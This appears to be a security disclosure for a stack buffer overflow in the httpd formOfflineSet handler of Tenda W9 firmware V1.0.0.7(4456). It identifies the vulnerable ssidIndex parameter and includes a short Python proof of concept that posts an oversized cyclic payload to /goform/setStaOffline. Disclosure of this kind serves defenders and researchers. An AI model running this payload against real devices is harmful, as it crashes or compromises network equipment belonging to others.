

# Tenda W9 V1.0.0.7(4456) AP has stack buffer overflow vulnerability
## Information

Vendor：https://www.tendacn.com/

Firmware：https://www.tenda.com.cn/download/detail-2986.html

## Affected Version
V1.0.0.7(4456)
## Vulnerability Analysis
The following image displays the code for a stack buffer overflow vulnerability in the `formOfflineSet` function of `httpd`. The value of the `ssidIndex` parameter will be concatenated ​​to local variable `s`, which will cause stack buffer overflow. 


## POC
```python
import requests
from pwn import *
url = "http://192.168.0.1/goform/setStaOffline"

payload = { 
    'ssidIndex': cyclic(5000),
    'radio': '2.4G'
    }

headers = {
    'Cookie':'w9v1_user=admin;'
}
requests.request("POST", url, data=payload, headers=headers)
```
## NOTE
The vendor was contacted early about this disclosure but did not respond in any way.